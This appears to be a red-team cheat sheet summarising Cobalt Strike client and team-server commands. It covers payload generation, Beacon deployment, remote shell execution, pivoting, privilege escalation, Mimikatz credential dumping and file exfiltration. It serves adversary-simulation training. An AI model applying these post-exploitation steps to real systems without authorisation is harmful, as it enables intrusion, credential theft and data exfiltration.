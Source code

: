 
### **Summary of Cobalt Strike Commands**

| **Command**                                      | **Description**                                               |
|--------------------------------------------------|---------------------------------------------------------------|
| `./cobaltstrike`                                 | Launch Cobalt Strike client                                   |
| `./teamserver <server_ip> <password>`            | Start the Cobalt Strike team server                           |
| `Listener > Add`                                 | Create a listener for payloads                                |
| `Payload > Windows > Executable`                 | Generate a payload (e.g., EXE, PowerShell)                    |
| `use <listener_name>`                            | Deploy a Beacon using a listener                              |
| `View > Beacons`                                 | List all active Beacons                                       |
| `shell <command>`                                | Execute shell commands on the target                          |
| `Pivoting > Add Route`                           | Set up pivot routes for lateral movement                      |
| `Access > Elevate > <exploit>`                   | Elevate privileges on the target system                       |
| `Attacks > Browser Pivoting > Setup`             | Use browser pivoting for session hijacking                    |
| `View > Mimikatz > Run`                          | Run Mimikatz to dump credentials                              |
| `View > Sessions`                                | View all active sessions                                      |
| `script <path_to_script.cna>`                    | Execute custom Aggressor scripts                              |
| `proxychains ./cobaltstrike`                     | Route Cobalt Strike through proxychains                       |
| `download <file_path>`                           | Exfiltrate data from the target                               |

---

Cobalt Strike is an advanced and versatile platform for adversary simulation, offering a wide array of tools and capabilities for attackers to model real-world threats, conduct post-exploitation activities, and engage in stealth operations.

